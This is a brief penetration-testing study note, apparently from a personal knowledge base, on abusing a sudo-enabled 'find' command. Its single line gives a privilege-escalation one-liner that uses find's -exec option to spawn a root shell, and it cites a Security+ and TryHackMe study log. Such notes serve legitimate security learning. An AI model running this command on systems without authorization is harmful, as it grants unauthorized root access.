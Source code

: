 # Exploiting “find”

author:: Nathan Acks  
date:: 2022-04-21

If `find` can be run with `sudo`, then try `sudo find . -exec /bin/sh \; -quit`.

## References

* [2022-04-20 - ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-04-20-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)
